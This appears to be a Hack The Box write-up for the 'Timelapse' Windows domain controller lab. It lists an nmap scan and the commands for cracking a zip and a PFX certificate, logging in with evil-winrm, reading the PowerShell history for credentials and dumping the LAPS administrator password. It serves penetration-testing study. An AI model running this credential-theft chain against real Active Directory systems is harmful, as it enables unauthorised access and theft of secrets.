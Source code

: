 # Timelapse

## NMAP

```text
PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 127
88/tcp    open  kerberos-sec   syn-ack ttl 127
135/tcp   open  msrpc          syn-ack ttl 127
139/tcp   open  netbios-ssn    syn-ack ttl 127
389/tcp   open  ldap           syn-ack ttl 127
445/tcp   open  microsoft-ds   syn-ack ttl 127
464/tcp   open  kpasswd5       syn-ack ttl 127
593/tcp   open  http-rpc-epmap syn-ack ttl 127
636/tcp   open  ldapssl        syn-ack ttl 127
5986/tcp  open  wsmans         syn-ack ttl 127
9389/tcp  open  adws           syn-ack ttl 127
49667/tcp open  unknown        syn-ack ttl 127
49673/tcp open  unknown        syn-ack ttl 127
49674/tcp open  unknown        syn-ack ttl 127
49693/tcp open  unknown        syn-ack ttl 127
63059/tcp open  unknown        syn-ack ttl 127

PORT     STATE    SERVICE           REASON          VERSION
53/tcp   open     domain            syn-ack ttl 127 Simple DNS Plus
88/tcp   open     kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-06 00:18:43Z)
135/tcp  open     msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open     netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open     ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?     syn-ack ttl 127
593/tcp  open     ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ldapssl?          syn-ack ttl 127
3268/tcp open     ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open     globalcatLDAPssl? syn-ack ttl 127
5985/tcp filtered wsman             no-response
9389/tcp open     mc-nmf            syn-ack ttl 127 .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FQDN

```text
timelapse.htb
dc1.timelapse.htb
```

## Listing Shares

![TimeLapse-shares](/HTB/Machines/images/TimeLapse-smbclient.png)

## Shares Content

![TimeLapse-share-content](/HTB/Machines/images/TimeLapse-Shares-share.png)

![TimeLapse-discover-laps](/HTB/Machines/images/TimeLapse-discover-laps.png)

## Zip Cracking

```bash
zip2john winrm_backup.zip > zip.hash

john --format=PKZIP --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

![TimeLapse-Zip-cracked](/HTB/Machines/images/TimeLapse-brute-wirmzip.png)

## PKCS cracking

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
```

![TimeLapse-Pfx-cracked](/HTB/Machines/images/TimeLapse-brute-pfx.png)

## PFX extract key and cert

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```

![TimeLapse-pfx-get-key-cert](/HTB/Machines/images/TimeLapse-get-key-cert.png)

## evil-winrm connect with key and certificate

```bash
evil-winrm -i $IP -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

## Powershell readline history

```pwsh
cd C:\Users\legaccy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
type ConsoleHost_history.txt
```

![TimeLapse-PS-history](/HTB/Machines/images/TimeLapse-PS-history.png)

## LAPS

```bash
evil-winrm -i $IP -u svc-deploy -p <passwd>
```

```pwsh
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```

![laps-dump-admin-pwd](/HTB/Machines/images/TimeLapse-laps-dump-admin-pwd.png)

### references

[oxdf-powershell-history](https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html)
